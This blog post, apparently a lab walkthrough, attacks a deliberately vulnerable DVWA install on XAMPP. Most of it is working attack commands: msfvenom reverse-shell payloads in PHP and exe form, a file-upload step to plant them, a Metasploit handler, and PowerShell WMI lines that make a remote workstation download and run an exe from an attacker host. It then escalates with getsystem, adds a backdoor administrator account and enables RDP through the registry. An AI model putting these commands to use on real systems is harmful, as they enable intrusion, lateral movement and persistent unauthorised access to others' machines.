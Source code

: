 ```yaml
---
title: 'Kali Windows PHP Attack'
author: RichMason
layout: post
permalink: /kali-php/
categories:
  - Tech
---
```

Install xampp from https://www.apachefriends.org/download.html

Download dvwa from https://github.com/digininja/DVWA

Extract DVWAmaster.zip to c:\xampp\htdocs\dvwa

Rename C:\xampp\htdocs\dvwa\config\config.inc.php.data to remove the last extension

Edit the file as

```
$_DVWA[ 'db_user' ]     = 'root';
$_DVWA[ 'db_password' ] = '';
```

Start using xampp console apache and mysql.

Browse to http://127.0.0.1/login.php

Login as admin/password

Create the database and set level to low

Create php file to exploit

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.200.203 LPORT=4444 -f raw > reverse.php
```

Upload the php file to the website using the dvwa upload file tab

Browse to http://<dvwa_site>:82/dvwa/hackable/uploads/reverse.php to open the tunnel


How to exploit XAMPP with php and then download exe to exploit getsystem.

On Kali console run

```bash
nc -nlvp 4444
```

Browse to http://<dvwa_server>:82/dvwa/hackable/uploads/reverse.php to open the tunnel

Create exe file to exploit

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.200.203 LPORT=4445 -f exe > reverse.exe
```

```bash
msfconsole

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set lhost 192.168.200.203

set lport 4445
```


Via the first shell opened onto dvwa run

```powershell
powershell Invoke-WmiMethod -Computer 192.168.200.15 -Path win32_process -Name create -ArgumentList 'powershell.exe -command "Invoke-WebRequest -Uri http://192.168.200.10/tunnel.exe -OutFile "c:\cb\dotnetfx.exe"'
```

  then


```powershell
powershell Invoke-WmiMethod -Computer 192.168.200.15 -Path win32_process -Name create -ArgumentList 'powershell.exe -command "Start-Process -Filepath "c:\cb\dotnetfx.exe"'
```

This downloads the exe using powershell on a remote workstation and then executes it starting another reverse tunnel to the second msfconsole session we opened.

On the second tunnel complete the test 

```bash
getsystem

net user /add ricky Bru73f0rc3_

net localgroup administrators ricky /add

reg add “Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

On the Kali appliance

```bash
apt-get install remmina
```

Connect over rdp to demonstrate access via the user created.
